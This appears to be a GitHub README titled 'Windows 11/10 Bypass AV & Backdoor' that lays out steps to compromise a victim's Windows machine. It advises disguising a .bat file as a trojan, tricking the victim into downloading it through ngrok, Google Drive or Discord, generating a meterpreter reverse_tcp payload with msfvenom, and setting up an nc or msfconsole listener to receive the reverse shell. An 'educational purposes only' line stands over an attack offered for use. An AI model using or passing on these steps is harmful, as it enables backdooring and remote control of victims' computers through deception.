 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps to Compromise:

1. Make it convincing by turning it into a trojan horse.
2. Get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.)
3. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. Setup your listener with nc or msfconsole: <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
